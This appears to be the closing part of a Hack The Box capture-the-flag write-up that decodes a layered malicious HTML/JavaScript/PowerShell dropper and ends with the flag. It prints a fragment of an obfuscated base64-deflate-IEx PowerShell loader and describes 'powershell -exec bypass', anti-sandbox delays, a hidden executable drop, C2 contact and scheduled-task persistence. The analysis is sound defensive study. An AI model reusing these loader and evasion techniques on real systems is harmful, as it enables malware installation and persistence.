aZFqJj0IidOD5jiAzF10VIyXxIIX1TSScfggAJnTVQtNKTkcDxeY5cb0emlyHu+TgXxFmRScADmBF0G7LQeURk80ZfUpjQpkPruBjqZD6Rg//gk=''),[SyStEM.IO.COMPreSSION.cOMPRessIONmodE]::DECOMPReSS)| FOrEach{NEW-oBJeCT  iO.sTReAMREaDEr( $_,[SYsTeM.TExt.eNcodiNg]::AsCii ) } ).reaDTOEnd( )'
```

We will simulate the script by using cyberchef recipe from base64 followed by raw inflate to decompress it, and we get the next payload:



Replace ` with nothing to make it more readable:



Simulate the process with cyberchef, I successfully decode those hex strings:







Well, exactly as the flag says: a lot of layers! Let me summarize what happens from the beginning:

**Layer 1 — HTML/JS Hex Encoding**

The HTML file contains two massive strings stored in `<div>` tags, base64-decode them to get a zip file → reveals JavaScript code.

**Layer 2 — Random Execution Gate**

```javascript
hfhwsgmb = Math.floor(Math.random() * 10000) + 1;
switch(hfhwsgmb) { case 532: ... }
```

Only a 0.01% chance of executing per run. Pure anti-sandbox evasion. In case of a match, it will strip gibberish S,v pattern from the huge string to get another JS payload.

**Layer 3 — Custom Base64 Decoder**
The `xhhwtarcadepz` function is a handwritten base64 decoder disguised with hundreds of junk var declarations. It decodes `bxmanhtn` → splits result on ! into 6 parts.

**Layer 4 — WScript.Shell Execution**

```javascript
new ActiveXObject("WScript.Shell").run(powershell, 0)
```

Shows fake "document is corrupt" popup as decoy
Waits ~13 minutes (another anti-sandbox trick)
Then runs PowerShell silently (window style 0)

**Layer 5 — PowerShell DeflateStream**
```powershell
PoweRShElL -EXEcU byPAss
  IEx( DeflateStream( FromBase64String('...') ) )
```

Case-mangled cmdlets to evade string matching
Base64 decodes → zlib decompresses → IEx executes result

**Layer 6 — XOR Obfuscated PowerShell**
The final script with all the UYcxq byte array calls. Each string is XOR-encrypted with a different key. Once decoded it:

1. Sets up type aliases — $4z0 = System.Text.Encoding, $IgF = System.Convert, $5EVlS = IO.File
2. Forces PowerShell v2 via Set-StrictMode -Version 2 — disables security features present in newer versions
3. Decodes a directory path → cd into it
4. Generates a random hex filename via RcDAtCaJT (16 random hex chars + .exe)
5. Decodes a large base64 blob → the actual malicious executable binary
6. Writes the exe to disk using IO.File::WriteAllBytes
7. Decodes a URL → the C2 (command and control) server address
8. Builds a scheduled task:

- Runs hidden
- Starts tomorrow, repeats every day for 365 days
- Allows running on battery power
- Multiple instances allowed in parallel


Registers the task under a random name → persistence established

```text
Malicious HTML
    └── Base64 decode -> get zip file -> JS payload
        └── Random gate (1/10000) -> strip s/V noise -> another JS payload
            └── Custom base64 decoder (hidden in junk vars)
                └── WScript.Shell.run(hidden)
                    ├── Fake error popup (decoy)
                    ├── 13 min delay (anti-sandbox)
                    └── PowerShell -bypass
                        └── Base64 → Deflate decompress → IEx
                            └── XOR decrypt byte arrays
                                ├── Write exe to disk
                                ├── Connect to C2 server
                                └── Register hidden daily scheduled task
```

`Flag: HTB{l0ts_of_l4Y3rs_iN_th4t_1}`

